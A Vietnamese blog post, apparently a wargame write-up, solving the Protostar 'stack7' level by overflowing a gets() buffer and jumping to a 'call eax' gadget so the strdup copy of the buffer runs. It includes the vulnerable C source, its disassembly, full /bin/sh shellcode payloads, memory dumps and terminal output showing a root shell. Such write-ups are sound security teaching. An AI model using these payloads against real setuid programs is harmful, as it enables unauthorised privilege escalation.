 ```yaml
---
layout: post
title: stack7
---
```

Trong bài này, giới hạn `eip` của caller cao hơn bài trước.
Bạn không thể chọn `eip` có dạng `0xb???????`, do đó, chỉ có thể return về lệnh trong phần chính (.text trong asm) của chương trình.
Phương pháp ROP giới thiệu trong bài trước vẫn có nguyên giá trị trong bài này.
Hãy tham khảo đáp ở cuối bài.
Sau đây là source code và asm code.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

```asm
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
0x08048545 <main+0>:    push   ebp
0x08048546 <main+1>:    mov    ebp,esp
0x08048548 <main+3>:    and    esp,0xfffffff0
0x0804854b <main+6>:    call   0x80484c4 <getpath>
0x08048550 <main+11>:   mov    esp,ebp
0x08048552 <main+13>:   pop    ebp
0x08048553 <main+14>:   ret
```
Một kỹ thuật mới dựa vào lệnh `call`/`jmp` register để exploit sẽ được giới thiệu trong bài này.
Nguyên lý của phương pháp là điều chỉnh các register như `eax`, `ebx`, etc. rồi dùng các lệnh điều hướng `call`, `jmp`, etc. để tìm đến đoạn code mong muốn.
Cụ thế trong stack7, hàm `getpath` có trả về giá trị và giá trị này là kết quả của hàm `strdup` với `buffer` là tham số.
Như vậy ta biết, nội dung của `buffer` sẽ được sao chép vào một vị trí khác trên bộ nhớ và `strdup` trả về địa chỉ đó vào register `eax`, ngay trước khi thoát hàm.
Ta cũng biết rằng `buffer` chứa injected code, do vậy bản sao của nó qua `strdup` cũng sẽ chứa đoạn code này.
Việc điều hướng bằng `call eax` hay `jmp eax` sẽ exploit thành công chương trình.

Trước tiên ta cần tìm đúng lệnh `call eax` có sẵn trong phần .text của stack7.
Bạn có thể dùng objdump và grep như sau:
```bash
objdump -d /opt/protostar/bin/stack7 | grep "call"
```
Sau đó lọc ra một lệnh `call eax` với địa chỉ khác với dạng `0xb???????`.
Có 2 lệnh như vậy trong stack7, tại địa chỉ `0x080484bf` và `0x080485eb`.
Việc tiếp theo, chúng ta sẽ tính toán giá trị cho `buffer` để exploit chương trình như sau:
```bash
python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\xbf\x84\x04\x08'" > input.txt
```
Giá trị này bao gồm 64 byte mong đợi của `buffer`, trong đó 36 byte đầu là `nop` cho NOP-sled và 28 byte còn lại cho injected code.
4 byte tiếp theo ghi đè lên biến `ret`.
8 byte tiếp theo dành cho padding.
4 byte tiếp theo dành cho `ebp` của caller.
4 byte cuối cùng là địa chỉ phù hợp, `0x080484bf`, để ghi đè `eip` của caller và điều hướng chương trình về lệnh `call eax`.
Sau đây là bộ nhớ trước và sau hàm `gets`.
Phân biệt <span style="color:aqua">buffer</span>, <span style="color:orangered">eip mới của caller</span>, và <span style="color:springgreen">injected code</span>.
<pre class="memory">
0xbffff710:     0xbffff72c      0x00000000      0xb7fe1b28      0x00000001
0xbffff720:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xb7f0186e</span>
0xbffff730:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff748</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff740:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x0804973c</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x08048380</span>
0xbffff750:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804973c</span>      <span style="color:aqua">0xbffff788</span>      <span style="color:aqua">0x08048589</span>
0xbffff760:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048570</span>      0xbffff788
0xbffff770:     0xb7ec6365      0xb7ff1040      0xbffff788      <span style="color:orangered">0x08048550</span>
</pre>
<pre class="memory">
0xbffff710:     0xbffff72c      0x00000000      0xb7fe1b28      0x00000001
0xbffff720:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0x90909090</span>
0xbffff730:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff740:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff750:     <span style="color:aqua">0x6850c031</span>      <span style="color:aqua">0x68732f2f</span>      <span style="color:aqua">0x69622f68</span>      <span style="color:aqua">0x89e3896e</span>
0xbffff760:     <span style="color:aqua">0xb0c289c1</span>      <span style="color:aqua">0x3180cd0b</span>      <span style="color:aqua">0x80cd40c0</span>      0x90909090
0xbffff770:     0x90909090      0x90909090      0x90909090      <span style="color:orangered">0x080484bf</span>
</pre>
Sau đây là chuỗi chương trình được ghép lại để bạn dễ hình dung.
<pre class="memory">
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
...
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
<span style="color:orangered">0x080484bf <frame_dummy+31>:     call   eax</span>
<span style="color:springgreen">0x????????:     nop</span>
<span style="color:springgreen">0x????????:     nop</span>
<span style="color:springgreen">0x????????:     nop</span>
<span style="color:springgreen">0x????????:     nop</span>
...
<span style="color:springgreen">0x????????:     xor    eax,eax</span>
<span style="color:springgreen">0x????????:     push   eax</span>
<span style="color:springgreen">0x????????:     push   0x68732f2f</span>
<span style="color:springgreen">0x????????:     push   0x6e69622f</span>
<span style="color:springgreen">0x????????:     mov    ebx,esp</span>
...
</pre>
Đáp án và kết quả hãy tham khảo ở cuối bài.

## Ref
```bash
user@protostar:~$ python -c "print 'ABC\x00' + '\x90' * 32 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\x44\x85\x04\x08' + '\x60\xf7\xff\xbf'" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack7
input path please: got path ABC
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
```bash
user@protostar:~$ python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\xbf\x84\x04\x08'" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack7
input path please: got path ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒▒°
                                                                                 ̀1▒@̀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
